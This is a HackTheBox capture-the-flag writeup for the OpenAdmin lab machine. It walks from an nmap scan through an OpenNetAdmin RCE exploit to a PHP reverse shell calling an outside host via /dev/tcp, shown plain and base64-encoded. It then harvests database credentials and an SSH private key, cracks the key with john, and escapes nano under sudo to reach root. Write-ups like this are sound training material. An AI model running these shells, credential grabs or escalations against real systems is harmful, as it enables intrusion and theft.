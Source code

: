 ```yaml
---
layout: post
title: HackTheBox OpenAdmin (10.10.10.171) Writeup
description: >
  Hackthebox OpenAdmin Writeup
image: /assets/img/openadmin.png
---
```


First start with an nmap scan
```
Starting Nmap 7.70 ( https://nmap.org ) at 2020-03-31 11:32 Pacific Daylight Time
Nmap scan report for 10.10.10.171
Host is up (0.028s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.04 seconds
```
Only two ports open. Doing some enumeration around port 80 I discover ther `/ona` directory. There I see the server is running `OpenNetAdmin 18.1.1`. A quick search will reveal there is an RCE exploit available for that verion [here](https://www.exploit-db.com/exploits/47691). Running the script shows I can execute commands as `www-data`
```
$./exploit.sh http://10.10.10.171/ona/
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
To get a reverse shell I had to base64 encode a reverse php shell and then base64 decoded and output to a file. Here is the simple shell.
```
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.48/9999 0>&1'");
```
Here is the shell base64 encoded and being output to a file.
```
$ echo "PD9waHAKZXhlYygiL2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjQ4Lzk5OTkgMD4mMSciKTs=" | base64 -d > shell.php
```
Now I set up my listener and execute the shell. By navigating to `http://10.10.10.171/ona/shell.php`
```
PS C:\Users\Lukasz\Documents\HTB\OpenAdmin > nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.10.14.48] from (UNKNOWN) [10.10.10.171] 50670
bash: cannot set terminal process group (1061): Inappropriate ioctl for device
bash: no job control in this shell
www-data@openadmin:/opt/ona/www$
```
Doing some enumeration I find some credentials in `/opt/ona/www/local/config/database_settings.inc.php`
```
www-data@openadmin:/opt/ona/www/local/config$ cat database_settings.inc.php
cat database_settings.inc.php
<?php

$ona_contexts=array (
  'DEFAULT' =>
  array (
    'databases' =>
    array (
      0 =>
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
```
Using those credentials I can log in as the user `jimmy`. At this point there is still no `user.txt` file which means I need to escalate to the user `joanna`. Do some further enumeration I find some interesting files in `/var/www/internal`. Reading the file `main.php` I see that when this file is called it executed a shell command to read `joanna's` private ssj key.
```
jimmy@openadmin:/var/www/internal$ cat main.php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); };
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```
I check netstat and see that there is a service running on `127.0.0.1:52846`.
```
tcp        0      0 127.0.0.1:52846         0.0.0.0:*               LISTEN      off (0.00/0/0)
```
Using `curl` to callpage I am able to get `joanna's` private key.
```
jimmy@openadmin:/var/www/internal$ curl 127.0.0.1:52846/main.php
<pre>-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
</pre><html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```
Now the ssh key is encrypted so it does need to be cracked. I used `john` for this. First I convert the key to a format john can read using `ssh2john`
```
root@kali:# /usr/share/john/ssh2john.py id_rsa > key.hash
```
Then I use john to crack it and get a password of `bloodninjas`
```
# john key.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (id_rsa)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:11 DONE (2020-03-31 13:15) 0.08438g/s 1210Kp/s 1210Kc/s 1210KC/sa6_123..*7¡Vamos!
Session completed
```
I use the password to log in as the user `jonna` using her private ssh key. Once logged in I can read the `user.txt` file.
```
joanna@openadmin:~$ cat user.txt 
c9b2cf07d40807e62af62660f0c81b5f
```
For the priviledge escalation to root I see that I am able to run a command as the user root.
```
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```
Using simple GTFOBins I run the following commands to get a root shell
```
# sudo /bin/nano /opt/priv
^R^X
reset; sh 1>&0 2>&0
```
Now I have a shell as root and from here I can read the `root.txt` file.
```
# cat root.txt
2f907ed450b361b2c2bf4e8795d5b561
```
